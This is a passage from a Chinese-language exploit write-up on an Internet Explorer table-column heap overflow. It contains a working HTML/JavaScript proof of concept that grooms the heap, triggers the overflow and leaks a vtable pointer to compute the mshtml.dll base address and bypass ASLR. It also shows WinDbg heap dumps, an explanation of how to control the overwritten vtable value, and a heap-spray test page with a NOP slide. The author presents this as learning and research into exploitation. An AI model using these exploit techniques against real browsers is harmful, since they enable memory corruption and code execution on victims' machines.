id="22" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="23" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="24" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="25" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="26" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="27" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="28" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="29" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="30" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="31" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="32" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="33" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="34" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="35" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="36" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="37" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="38" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="39" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="40" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="41" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="42" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="43" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="44" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="45" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="46" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="47" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="48" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="49" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="50" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="51" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="52" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="53" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="54" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="55" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="56" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="57" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="58" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="59" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="60" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="61" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="62" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="63" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="64" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="65" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="66" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="67" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="68" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="69" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="70" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="71" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="72" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="73" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="74" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="75" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="76" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="77" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="78" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="79" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="80" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="81" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="82" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="83" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="84" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="85" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="86" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="87" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="88" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="89" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="90" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="91" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="92" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="93" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="94" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="95" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="96" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="97" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="98" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="99" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="100" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="101" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="102" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="103" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="104" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="105" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="106" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="107" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="108" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="109" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="110" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="111" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="112" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="113" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="114" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="115" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="116" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="117" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="118" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="119" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="120" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="121" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="122" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="123" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="124" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="125" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="126" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="127" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="128" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="129" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="130" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="131" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="132" width="41" span="9" >&nbsp </col></table>
</body>
</html>
```

我们再次来思考下该如何构造一个Exp获取到`mdhtml.dll`模块的加载基址，如下是我最后获取到的占位后的对数据，奇怪的是，占位的位置，好像更靠前
```
04323da0 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323dbc 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323dd8 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323df4 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323e10 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323e2c 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323e48 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323e64 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323e80 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
04323e9c 45 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  E...........................
04323eb8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323ed4 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323ef0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323f0c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323f28 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323f44 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323f60 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323f7c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04323f98 00 00 00 00 00 00 00 00 e0 64 76 50 d5 24 07 08 b0 32 17 00 70 dd 1c 00 0e 00 00 00  .........dvP.$...2..p.......
04323fb4 c0 d0 e0 f0 19 b2 26 09 00 00 00 88 fa 00 00 00 41 00 41 00 41 00 41 00 41 00 41 00  ......&.........A.A.A.A.A.A.
04323fd0 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
04323fec 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
04324008 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
04324024 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
04324040 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
0432405c 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
04324078 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
04324094 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.A.A.A.A.A.A.
043240b0 41 00 41 00 41 00 41 00 41 00 41 00 41 00 00 00 f6 bd 26 09 00 00 00 88 fa 00 00 00  A.A.A.A.A.A.A.....&.........
043240cc 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
043240e8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
04324104 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
04324120 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
0432413c 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
04324158 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
04324174 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
04324190 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
043241ac 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 00 00  B.B.B.B.B.B.B.B.B.B.B.B.B...
043241c8 d7 bd 26 09 00 00 00 8c f8 84 51 68 00 ce 15 00 b8 59 1b 00 90 86 51 68 01 00 00 00  ..&.......Qh.....Y....Qh....
043241e4 00 00 00 00 09 08 08 01 ff ff ff ff 00 00 00 00 00 00 00 00 00 00 00 00 ff ff ff ff  ............................
04324200 80 00 00 00 ff ff ff ff 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
0432421c 24 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  $... .......................
04324238 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
04324254 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 42 32 04 00 00 00 00 00 00 00 00  .................B2.........
04324270 00 00 00 00 00 00 00 00 01 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
0432428c 00 00 00 00 00 00 00 00 00 00 00 00 ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff  ............................
043242a8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ............................
043242c4 00 00 00 00 00 00 00 00 00 00 00 00 b4 bd 26 09 00 00 00 80 ff ff 00 00 45 00 45 00  ..............&.........E.E.
```

多次测试依旧是这个结果，所以我尝试修改覆盖的长度，改为`29`，此时刚好可以覆盖到`BBBB......`四字节长度数据，最终代码如下
```
<html>
<body>
    <div id="evil"></div>
    <script>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i+=2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i+1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        alert("1");
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
    </script>
        <table style="table-layout:fixed" ><col id="0" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="1" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="2" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="3" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="4" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="5" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="6" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="7" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="8" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="9" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="10" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="11" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="12" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="13" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="14" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="15" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="16" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="17" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="18" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="19" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="20" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="21" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="22" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="23" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="24" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="25" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="26" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="27" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="28" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="29" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="30" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="31" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="32" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="33" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="34" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="35" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="36" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="37" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="38" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="39" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="40" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="41" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="42" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="43" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="44" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="45" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="46" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="47" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="48" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="49" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="50" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="51" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="52" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="53" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="54" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="55" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="56" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="57" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="58" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="59" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="60" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="61" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="62" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="63" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="64" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="65" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="66" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="67" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="68" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="69" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="70" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="71" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="72" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="73" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="74" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="75" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="76" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="77" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="78" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="79" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="80" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="81" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="82" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="83" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="84" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="85" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="86" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="87" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="88" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="89" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="90" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="91" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="92" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="93" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="94" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="95" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="96" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="97" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="98" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="99" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="100" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="101" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="102" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="103" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="104" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="105" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="106" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="107" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="108" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="109" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="110" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="111" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="112" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="113" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="114" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="115" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="116" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="117" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="118" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="119" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="120" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="121" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="122" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="123" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="124" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="125" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="126" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="127" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="128" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="129" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="130" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="131" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="132" width="41" span="9" >&nbsp </col></table>
    <script>
		function leak() {
            alert("2");
            var leak_col = document.getElementById("132");
            leak_col.width = "41";
            leak_col.span = "29";
        }
		function get_leak() {
			var str_addr = -1;
			for (var i = 0; i < 500; i++) {
				if (al[i].length > (0x100 - 6) / 2) {
					alert(al[i].length.toString(16))
					var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
					str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
					str_addr = str_addr - 0x1584f8;
					var hex = str_addr.toString(16);
					alert(hex);
					break;
				}
			}
		}
    	setTimeout("leak()", 400);
		setTimeout("get_leak()", 450);
    </script>
</body>
</html>
```

测试效果


回归正常之后，结合前面说的，我们要将虚表指针覆盖成一个`固定地址`

这里有两个问题：
1. 如何控制覆盖虚表指针的值？
2. 固定地址为什么是`07070024`这个值？

第一个问题很好回答，只需要控制`width`的值即可，比如我们设置`span`为`100`，可以看到虚表指针被覆盖成了`10 27 00 00`，也就是`100 * 100 = 0x00002710`
```
02f767a8 10 27 00 00 10 27 00 00 10 27 00 00 a0 5c 3c 00 e0 7d f7 02 90 86 a0 62 08 71 02 00  .'...'...'...\<..}.....b.q..
```

第二个问题需要仔细记录下，因为一开始我也很奇怪为什么就一定可以喷到这个地址？

在学习浏览器堆喷的时候，我发现蛙师傅翻译过一些很不错的文章
- https://bbs.pediy.com/thread-207158.htm

结合这篇文章，我们来学习下堆喷的相关知识，主要是我学习

因为蛙师傅的代码在我的环境中不能写入堆空间，首先稍微修改下代码，来查看内存中连续申请堆空间时的情形，
```
<html>
    <body>
        <script>
            size = 0x3E8;
            NopSlide = '';
            var Shellcode = unescape('%u7546%u7a7a%u5379' + '%u6365%u7275%u7469' + '%u9079');
            for (var c = 0; c < size; c++) {
                NopSlide += unescape('%u9090%u9090');
            }
            NopSlide = NopSlide.substring(0, size - Shellcode.length);
            var memory = new Array();
            var Final = NopSlide + Shellcode;
            for (var i = 0; i < 100; i++) {
                memory[i] = Final.substring(0, Final.length);
            }
            alert("Done");
        </script>
    </body>
</html>
```

跑起来后，找到所有`"FuzzySecurity"`，最左边的是当前堆块地址和下一堆块地址的间距，随便计算一部分，可以发现大概率的堆空间是连续申请的
```
0:013> s -a 0x00000000 L?7fffffff "FuzzySecurity"
0x01215000    05c55fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00162000    06e6afe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x008db000    06fccfe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078a7fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078a9fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
